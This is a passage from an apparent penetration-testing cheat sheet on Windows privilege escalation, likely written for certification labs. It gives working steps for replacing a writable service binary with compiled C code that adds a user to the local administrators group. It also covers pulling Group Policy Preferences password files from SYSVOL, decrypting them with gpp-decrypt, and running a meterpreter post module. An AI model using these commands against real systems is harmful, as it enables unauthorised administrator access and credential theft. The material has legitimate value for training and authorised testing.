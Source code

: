 -   Powershell Priv Escalation Tools
    https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

-   Windows Service Configuration Viewer - Check for misconfigurations
    in services that can lead to privilege escalation. You can replace
    the executable with your own and have windows execute whatever code
    you want as the privileged user.  
    icacls scsiaccess.exe

> scsiaccess.exe  
> NT AUTHORITY\\SYSTEM:(I)(F)  
> BUILTIN\\Administrators:(I)(F)  
> BUILTIN\\Users:(I)(RX)  
> APPLICATION PACKAGE AUTHORITY\\ALL APPLICATION PACKAGES:(I)(RX)  
> Everyone:(I)(F)

-   Compile a custom add user command in windows using C  
    root@kali:~\# cat useradd.c  
    \#include &lt;stdlib.h&gt; /\* system, NULL, EXIT\_FAILURE \*/  
    int main ()  
    {  
    int i;  
    i=system ("net localgroup administrators low /add");  
    return 0;  
    }  
      
    i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c

-   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files

    -   map the Domain controller SYSVOL share  
        net use z: \\\\dc01\\SYSVOL

    -   Find the GPP file: Groups.xml  
        dir /s Groups.xml

    -   Review the contents for passwords  
        type Groups.xml

    -   Decrypt using GPP Decrypt  
        gpp-decrypt
        riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB
        
-   Find and display the proof.txt or flag.txt - get the loot!
    `#meterpreter  >     run  post/windows/gather/win_privs`
    
    `cd\ & dir /b /s proof.txt`
    `type c:\pathto\proof.txt`
    

Client, Web and Password Attacks
==============================================================================================================================

-   <span id="_pcjm0n4oppqx" class="anchor"><span id="_Toc480741817" class="anchor"></span></span>Client Attacks
    ------------------------------------------------------------------------------------------------------------
